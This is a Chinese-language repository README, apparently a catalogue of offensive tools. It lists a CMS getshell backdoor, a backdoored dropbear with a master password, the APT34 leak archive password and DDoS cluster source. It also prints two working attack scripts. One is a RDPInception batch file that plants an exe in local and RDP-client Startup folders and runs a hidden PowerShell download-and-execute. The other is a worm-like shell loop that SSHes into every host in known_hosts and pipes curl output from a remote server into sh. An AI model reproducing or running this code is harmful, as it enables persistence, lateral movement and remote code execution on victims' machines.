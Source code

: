 # 

~~北京、上海、重庆、新疆、西藏、云南、青海、湖北~~
81+500000
## siteserver cms 5.X vuln demo
SiteServer CMS remote download getshell `demo.zip`下载的后门文件
## 修改OpenSSH源代码记录用户详细操作日志
openssh*.tar.gz 修改后的文件编译安装即可，*.docx为修改说明。
+ https://www.zhoufengjie.cn/?p=385
+ https://www.zhoufengjie.cn/?p=174
## exin.zipEXIN挖矿木马之横向渗透分析
## run.js
Browser-based subdomain bruteforcing using DNS over HTTP(s) (DoH)
## dropbear
+ FAKE_ROOT: #define 强制伪"root"uid解析，即使目标系统无法解析用户名。
+ ALT_SHELL: #define 假冒root用户使用备用shell而不是/bin/sh登陆。
+ Server Master Password: 在dropbear命令行上指定-Y以指定要进行身份验证的“主”密码，当没有root用户时，对FAKE_ROOT很有用，因此没有root密码。
+ Forced Home Directory: 在dropbear命令行上指定-H，以使用户使用指定的主目录登录。当没有root用户时，对FAKE_ROOT很有用，因此没有root主目录。
```
wget https://matt.ucc.asn.au/dropbear/releases/dropbear-2018.76.tar.bz2
tar xjf dropbear-2018.76.tar.bz2
cd dropbear-2018.76
./configure --disable-zlib
make
make install
mkdir /etc/dropbear
/usr/local/bin/dropbearkey -t dss -f /etc/dropbear/dropbear_dss_host_key
/usr/local/bin/dropbearkey -t rsa -s 4096 -f /etc/dropbear/dropbear_rsa_host_key
/usr/local/sbin/dropbear -p 6666
```

## APT34-Leak

Pass: `vJrqJeJo2n005FF*`

+ Glimpse（Palo Alto Networks命名为BondUpdater的基于PowerShell的木马的新版本）
+ PoisonFrog（旧版BondUpdater）
+ HyperShell（Palo Alto Networks称之为TwoFace的网络外壳）
+ HighShell（另一个Web shell）
+ Fox Panel（网络钓鱼套件）
+ Webmask（DNS隧道，DNSpionage背后的主要工具）

## RDPInception
Bat To Exe转换器添加如下代码保存`windows.bat`
```
@echo off

echo Updating Windows ...

@echo off
timeout 1 >nul 2>&1

mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1

copy windows.exe C:\temp >nul 2>&1
copy windows.exe \\tsclient\c\temp >nul 2>&1

del /q %TEMP%\temp_00.txt >nul 2>&1

set dirs=dir /a:d /b /s C:\users\*Startup*
set dirs2=dir /a:d /b /s \\tsclient\c\users\*startup*

echo|%dirs%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"
echo|%dirs2%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"

for /F "tokens=*" %%a in (%TEMP%\temp_00.txt) DO (
	copy windows.exe "%%a" >nul 2>&1
	copy C:\temp\windows.exe "%%a" >nul 2>&1
	copy \\tsclient\c\temp\windows.exe "%%a" >nul 2>&1
)

del /q %TEMP%\temp_00.txt >nul 2>&1

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x'))"
```
选项：

+ 工作目录：当前
+ EXE格式：32位windows隐藏
+ 嵌入式提取到：临时目录

转换bat保存为`windows.exe`,编辑`windows.bat`嵌入添加`windows.exe`重新转换为最终成品windows.exe

## kali_beef_start
Kali Beef Framework Start Script

## SambaCry漏洞扫描程序
存档的密码:`sambacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-sambacry/

## WannaCry漏洞扫描程序MS17-010
存档的密码:`wannacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-ms17-010/

## kali开启SSH服务，允许root登陆
```
systemctl enable ssh.service	//开启SSH服务开机启动
```
`nano /etc/ssh/sshd_config`允许root登陆
```
#PermitRootLogin prohibit-password
PermitRootLogin yes
#PasswordAuthentication yes
PasswordAuthentication yes
```
## kali设置固定ip
1.首先把kali虚拟机的**网络适配器**更改为**桥接模式**直连物理网络。<br>
2.查看自己主机的（是自己真实电脑的不是虚拟机）ip地址，网关，网段。<br>
3.修改`nano /etc/network/interfaces`文件，添加如下内容
```
auto eth0	//自动启动eth0网卡
iface eth0 inet static	//静态获取IP
address x.x.x.x	//固定ip地址，根据实际情况填写
netmask x.x.x.x	//子网掩码，根据实际情况填写
gateway x.x.x.x	//网关，根据实际情况填写
```
4.修改`nano /etc/resolv.conf`文件添加dns
```
nameserver 114.114.114.114
nameserver 8.8.8.8
```
5.重启系统或`/etc/init.d/networking restart`重启网络服务

## Puzlbox PHP模糊测试工具。
它通过执行动态程序分析来扫描几个不同的漏洞.目前正在进行以下测试：

+ 任意命令执行
+ 任意文件读/写/更改/重命名/删除
+ 本地文件包含（LFI）
+ 任意PHP执行
+ SQL注入
+ 反射的跨站点脚本（XSS）

对于每个测试，将特定有效负载（伪造请求）发送到Web应用程序，并分析来自服务器的响应。根据结果​​（HTTP响应代码，错误，......），测试将被解释为正面（发现潜在的漏洞）或负面。所有肯定测试都出现在生成的报告中，并带有已发送的有效负载

puzlbox [-s Server（默认本地主机）] [-m扫描模式（默认CFLPSX）] [绝对Web根目录] [-n No Unhook] [应用程序路径（以逗号分隔）]

## linux ddos集群源码

存档的密码:`123` <br>linux集群源码_2.7z 

## XSSHunter-Setup安装教程
`XSSHunter-Setup`安装教程文章

## ssh批量执行命令
```
#!/bin/sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

if [ -f /root/.ssh/known_hosts ]; then
  for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "curl -fsSL http://x.x.x.x/z0.txt | sh";done
fi

for file in /home/*
do
    if test -d $file; then
        if [ -f $file/.ssh/known_hosts ]; then
            for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "curl -fsSL http://x.x.x.x/z0.txt | sh";done
        fi
    fi
done
```
